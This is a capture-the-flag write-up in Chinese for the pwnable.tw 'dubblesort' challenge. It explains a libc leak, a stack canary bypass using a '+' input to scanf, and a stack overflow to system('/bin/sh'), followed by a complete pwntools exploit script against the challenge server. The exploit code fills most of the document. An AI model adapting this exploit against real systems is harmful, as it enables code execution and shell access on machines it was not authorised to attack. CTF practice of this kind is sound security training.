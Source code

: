 # poc

```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
FORTIFY:  Enabled
```

> 泄漏`libc`地址 -> 绕过`canary` -> 栈溢出 -> `system('/bin/sh\x00')`

本地调试发现栈上残留`libc`地址，输入特定长度名字可以泄漏，根据相对偏移算出`libc`基址，当输入较大数字个数时可触发栈溢出，但`canary`需要特殊技巧绕过，`__isoc99_scanf("%u", &a)`可以通过输入`"+"`避免读入修改`canary`，剩余问题只需考虑计算栈地址，及排序后不影响`system`调用即可。

# exp

```python
from pwn import *

DEBUG = 0

context(arch = 'i386', os = 'linux', log_level = 'debug')

if DEBUG:
    p = process('./dubblesort.dms')
    e = ELF('./libc-2.23.so')
    gdb.attach(p)
else:
    p = remote('chall.pwnable.tw', 10101)
    e = ELF('./libc_32.so.6')

p.sendline('a' * 20 + 'abcd')
p.recvuntil('abcd')
libc_base = (u32(p.recv(4)) & 0xffffff00) - 0x1b0000
log.debug('%s => %d' % ('libc_base', libc_base))

system_addr = libc_base + e.symbols['system']
binsh_addr = libc_base + list(e.search('/bin/sh\x00'))[0]

p.sendline(str(35))

for i in range(24):
    p.sendline(str(i))

p.sendline('+')

for i in range(8):
    p.sendline(str(system_addr))

for i in range(2):
    p.sendline(str(binsh_addr))

p.interactive()
```
